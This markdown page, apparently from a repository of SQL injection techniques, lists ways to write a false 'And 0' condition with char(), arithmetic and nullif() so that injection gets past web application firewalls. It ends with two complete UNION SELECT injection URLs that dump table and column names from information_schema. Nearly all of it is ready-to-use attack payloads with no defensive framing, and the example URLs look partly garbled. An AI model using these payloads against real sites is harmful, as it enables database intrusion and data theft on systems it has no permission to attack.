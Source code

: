 # The Alternative WAY of using And 0 in SQL Injection

## The traditional way of using **And 0**  
```
And 1=0
And false
And 0
And 50=60 
Any number that are not the same will equal to (0,false,null)
```

## The alternative way of using **And 0** for WAF Bypass purpose

### Using char() for 0, null, false values
```
And char(0)
And char(false)
And char(null)
```

### Any Mathematical/Arithmetic or Logical Problem's that equal to 0
```
And 1*0
And 1-1
And 0/1
```

### Using **and nullif(1336,1337)**
If one arguments is different nullif(1336,1337) it return the first argument and it will consider as true.So no need to use this.But sometimes it works. Since both arguments are equal it return as null value or it's considered as false,0,null and it will valid as Bypass Method in SQL.

```
And nullif(1337,1337)
```

## Example:

Using **char(0)**
```
http://website.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

Using **nullif(1337,1337)**
```
http://website.com/index.php?id=1 and nullif(1337,1337) Union Select '1 and nullif(1337,1337) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```
